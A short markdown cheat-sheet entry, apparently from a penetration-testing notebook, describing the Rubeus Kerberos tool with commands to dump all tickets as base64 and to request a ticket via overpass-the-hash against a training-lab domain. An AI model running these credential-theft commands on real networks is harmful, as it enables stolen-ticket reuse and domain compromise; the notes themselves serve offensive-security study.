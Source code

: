 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```

Rubeus is a C# toolset for raw Kerberos interaction and abuses.

[GitHub - GhostPack/Rubeus: Trying to tame the three-headed dog.](https://github.com/GhostPack/Rubeus)

## Usage 

### Export Tickets

```cmd-session
Rubeus.exe dump /nowrap
```

This option can be used to dump all tickets (if running as a local administrator). `Rubeus dump`, instead of giving us a file, will print the ticket encoded in base64 format. We are adding the option `/nowrap` for easier copy-paste.

#### Pass the Key or OverPass the Hash

```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```